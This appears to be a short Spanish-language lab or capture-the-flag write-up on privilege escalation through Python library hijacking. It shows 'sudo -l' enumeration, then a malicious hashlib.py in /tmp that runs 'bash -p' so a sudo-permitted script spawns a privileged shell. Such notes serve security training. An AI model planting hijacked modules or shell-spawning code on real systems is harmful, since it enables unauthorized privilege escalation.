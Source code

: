 
En este caso podemos ver que podemos ejecutar desde el usuario ken como usuario manolo el script example.py

`sudo -l`
![[Pasted image 20250419232159.png]]

Accedemos al user manolo
Nos vamos a `/tmp/` y hacemos `nano example.py`
ingresamos el siguiente codigo:
`import hashlib`

`if __name__ == '__main__':`
        `cadena = "Hola esta es mi cadena"`
        `print(hashlib.md5(cadena.encode()).hexdigest())`


Desde el usuario ken podemos observar el `example.py`
que podemos ejecutar desde nuestro usuario ken pero como manolo de la siguiente forma:

sudo -u manolo python3 /tmp/example.py

observamos que emplea la libreria hashlib entonces lo que hacemos es localizar en que ruta se encuentr exactamente

`apt install locate`
locate hashlib

lo que hacemos es crear en tmp un archivp hashlib.py para secuestrarlo


		nano hashlib.py
			import os
			os.system("bash -p")



![[Pasted image 20250419234151.png]]
y POWNED!!!!
Hemos brincado a root con library hijacking

![[Pasted image 20250419234247.png]]
Estamos como maonolo pero root
EN CASO DE QUE PODAMOS ACCEDER A LA LIBRERIA Y MODIFICARLA PODEMOS AGREGAR UN BASH -P DENTRO DE LA LIBRERIA (SOLO SI NOS PERMITE EDITARLO)
